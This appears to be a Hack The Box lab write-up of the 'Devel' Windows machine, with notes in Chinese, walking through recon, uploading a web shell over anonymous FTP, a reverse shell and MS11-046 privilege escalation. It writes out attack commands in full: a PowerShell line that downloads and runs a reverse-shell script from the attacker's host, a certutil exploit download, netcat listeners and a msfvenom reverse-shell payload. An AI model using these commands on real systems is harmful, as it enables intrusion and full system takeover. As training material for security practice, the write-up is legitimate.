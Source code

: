 ```yaml
---
title : "Hack The Box - Devel"
author: fsociety
date: 2024-04-26 11:30:00 +0800
categories: [Hackthebox, Hackthebox-Windows, Hackthebox-Easy]
tags: [MS11-046,Anonymous FTP login allowed]
---
```


![image](../assets/post_img/Snipaste_2024-04-26_17-58-03.png)

**Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.**

```
Devel 虽然相对简单，但演示了与某些默认程序配置相关的安全风险
它是一个初学者级别的机器，可以使用公开可用的漏洞来完成
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.62.217 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.62.217

ORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
```


### <span style="color:lightgreen">FTP - TCP 21</span>

```
ftp 10.129.62.217
Connected to 10.129.62.217.
220 Microsoft FTP Service
Name (10.129.62.217:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

```
可匿名登录,貌似是iis的web默认目录
```

### <span style="color:lightgreen">Website - TCP 80</span>


```
curl -I 10.129.62.217
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 26 Apr 2024 08:01:44 GMT
```

```
默认页
```

## <span style="color:lightblue">Foothold</span>
### <span style="color:lightgreen">Webshell Upload</span>

```
cp /opt/useful/SecLists/Web-Shells/FuzzDB/cmd.aspx ./

ftp 10.129.62.217
Connected to 10.129.62.217.
220 Microsoft FTP Service
Name (10.129.62.217:root): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmd.aspx 
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (39.2914 MB/s)
ftp> exit
221 Goodbye.
```

### <span style="color:lightgreen">Shell</span>

![image](../assets/post_img/Snipaste_2024-04-26_16-11-29.png)

```
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1

使用nishang的payload进行反弹shell

在末尾添加如下负载

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

```
sudo rlwrap nc -lvnp 443

powershell iex(new-object net.webclient).downloadstring('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')
```

```
sudo rlwrap nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.62.217.
Ncat: Connection from 10.129.62.217:49159.
Windows PowerShell running as user DEVEL$ on DEVEL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
iis apppool\web
```

## <span style="color:lightblue">Privilege Escalation</span>
### <span style="color:lightgreen">Using Watson enum</span>

```
https://github.com/rasta-mouse/Watson

Watson可以枚举缺失的 KB ,并列举出有用的权限提升漏洞
```

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v2.0.50727
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.0
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.5
```

```
编译对应的x86 以及3.5 .net框架

运行

\\10.10.14.14\share\Watson.exe
```

```
MS11-046
```

### <span style="color:lightgreen">MS11-046</span>

```
https://www.exploit-db.com/exploits/40564

sudo apt-get install gcc-mingw-w64-i686
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32

certutil -urlcache -f http://10.10.14.16:8000/40564.exe exp.exe
```

```
这里遇到点问题 powershell 下执行exp 之后 权限还是iis服务账户
```

```
尝试反弹一个cmd的shell
```

```
sudo msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.16 lport=4444 -f aspx > shell.aspx

c:\Windows\System32>whoami
whoami
nt authority\system
```

![image](../assets/post_img/Snipaste_2024-04-26_17-57-40.png)